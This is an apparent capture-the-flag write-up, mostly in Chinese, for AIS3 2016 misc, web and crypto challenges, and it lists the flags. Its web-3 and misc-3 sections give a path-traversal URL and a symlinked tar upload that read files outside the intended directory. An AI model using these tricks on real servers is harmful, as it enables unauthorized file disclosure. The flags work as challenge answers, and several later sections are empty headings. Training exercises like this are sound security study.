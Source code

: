 ﻿## misc-1
`ais3{2016_^_^_hello_world!}`
## misc-2
`hd UNPACK_ME` 觀察發現類似7z的[signature](http://www.7-zip.org/recover.html):  
37 7A BC AF 27 1C 被改成 37 5A BC AF 27 1C  
其實他就是把 "7z" 換成 "7Z" XD  
Use python mmap to repair:
``` python
with open('','a+') as file:
  mm = mmap.mmap(file.fileno(),0)
  mm[1] = '\x7A'
  mm.close()
```
修好之後會發現檔案被加密了  其中一個0 byte的檔名就是密碼   
`7z x 壓縮檔 -p密碼`  
接下來一樣的方式修好7z 解壓縮後會有secret.txt  
裡面是下一個檔案的密碼  
解壓縮一次size會減少300 bytes左右, 估計包了1000層
``` sh
for i in `seq 1000`;do
  filename=`ls | grep ".\{16,\}"`
  ./repair.py $filename
  7z x $filename -p`cat secret.txt` -y
done
```
```sh
cat flag.txt
ais3{7zzZzzzZzzZzZzzZiP}
```
## misc-3
提示是Symbolic Link

程式碼會把上傳的tar檔解壓縮後,  
再跟../flag.txt做hash比較  
要brute force去做hash collision看起來是不太可行..  
後來題示出來之後才知道symbolic link可以隨意指定路徑
```sh
ln -s ../flag.txt guess.txt
tar cvf guess.tar guess.txt
```
把檔案上傳後就可以拿到flag
## web-1
Google 也找不到的原因就是因為robots.txt的設定  
直接打開robots.txt 就能找到隱藏的網頁了  
https://quiz.ais3.org:8011/robots.txt
```
User-agent: *
Disallow: /admin
Disallow: /cgi-bin/
Disallow: /images/
Disallow: /tmp/
Disallow: /private/
Disallow: /this_secret_page_you_should_not_know_where_it_is.php
```
https://quiz.ais3.org:8011/this_secret_page_you_should_not_know_where_it_is.php
`ais3{Y0u_beat_the_G00g1e!!}`
## web-2
Location 會向瀏覽器傳送 redirect 指令  
但是原本的網頁還是會傳送到client端  
使用無視redirect的curl:  
`curl https://quiz.ais3.org:8012/panel.php`
```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Admin Panel</title>
</head>
<body>
Admin's secret is: ais3{admin's_pane1_is_on_fir3!!!!!}</body>
</html>
```
## web-3
[bug](https://bugs.php.net/bug.php?id=55511):  
https://quiz.ais3.org:8013/download.php?p=../flag.php&a=10:5  
```
Ha! Ha! You can not see the content of this file, because it is PHP!!! :)
<?php
$flag = "ais3{haha!i_bypassed_the_fucking_waf!}";
?>
```
## crypto-1
`xortool crypto1`發現可能的長度為 13 or 39  
`xortool crypto1 -l 13 -c 00`不是flag  
`xortool crypto1 -l 39 -c 00`會看到AIS字樣, 看來十分接近了  

改用空格分析:  
`xortool crypto1 -l 39 -c 20`
`ais3{XoR_enCrYPtiON_15_n0t_a_G00d_i!ea}`  
上傳之後發現答案是錯的OAO  
根據某位大大的說法只好自己腦補一下XD
`ais3{XoR_enCrYPtiON_15_n0t_a_G00d_idea}`  
不知道是不是bug還是解法不對
## crypto-2

## crypto-3
## remote-1
## remote-2
## remote-3
## binary-1
## binary-2
## binary-3
